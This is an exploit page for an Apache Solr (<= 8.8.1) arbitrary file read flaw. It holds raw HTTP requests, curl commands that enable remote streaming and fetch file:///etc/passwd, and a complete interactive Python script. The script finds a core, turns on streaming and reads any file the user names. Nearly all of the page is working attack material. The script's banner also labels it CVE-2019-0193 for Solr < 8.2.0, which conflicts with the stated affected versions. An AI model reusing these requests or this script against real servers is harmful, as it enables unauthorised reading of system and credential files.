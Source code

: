 <languages   />

Vulnerability Impact
--------------------

    Apache Solr <= 8.8.1

Exploit
-------

First, go to the admin page and get the information about core

    http://xxx.xxx.xxx.xxx/solr/admin/cores?indexInfo=false&wt=json

Send the following packet

    POST /solr/ckan/config HTTP/1.1
    Host: xxx.xxx.xxx:8983
    Content-Length: 99
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://118.31.46.134:8983
    Content-Type: application/json
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://118.31.46.134:8983/solr/ckan/config
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

    {"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}

File Reading
------------

    POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
    Host: xxx.xxx.xxx.xxx:8983
    Content-Length: 29
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
    Origin: http://118.31.46.134:8983
    Content-Type: application/x-www-form-urlencoded
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://118.31.46.134:8983/solr/ckan/config
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

    stream.url=file:///etc/passwd

curl request as

    curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://xxx.xxx.xxx.xxx:8983/solr/{corename}/config -H 'Content-type:application/json'
    curl "http://xxx.xxx.xxx.xxx:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file://etc/passwd"

POC
---

    import requests
    import sys
    import random
    import re
    import base64
    import time
    from lxml import etree
    import json
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech           \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0        \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                        \033[0m')
        print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
        print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
        print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
        print('+  \033[36mFile   >>> 文件名称或目录                  \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
        try:
            response = requests.request("GET", url=core_url, timeout=10)
            core_name = list(json.loads(response.text)["status"])[0]
            print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
            return core_name
        except:
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
            sys.exit(0)

    def POC_2(target_url, core_name):
        vuln_url = target_url + "/solr/" + core_name + "/config"
        headers = {
            "Content-type":"application/json"
        }
        data = '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}'
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
            print("\033[36m[o] 正在准备文件读取...... \033[0m".format(target_url))
            if "This" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {} 可能存在漏洞 \033[0m".format(target_url))
            else:
                print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
                sys.exit(0)

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    def POC_3(target_url, core_name, File_name):
        vuln_url = target_url + "/solr/{}/debug/dump?param=ContentStreams".format(core_name)
        headers = {
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = 'stream.url=file://{}'.format(File_name)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
            if "No such file or directory" in response.text:
                print("\033[31m[x] 读取{}失败 \033[0m".format(File_name))
            else:
                print("\033[36m[o] 响应为:\n{} \033[0m".format(json.loads(response.text)["streams"][0]["stream"]))


        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        core_name = POC_1(target_url)
        POC_2(target_url, core_name)
        while True:
            File_name = str(input("\033[35mFile >>> \033[0m"))
            POC_3(target_url, core_name, File_name)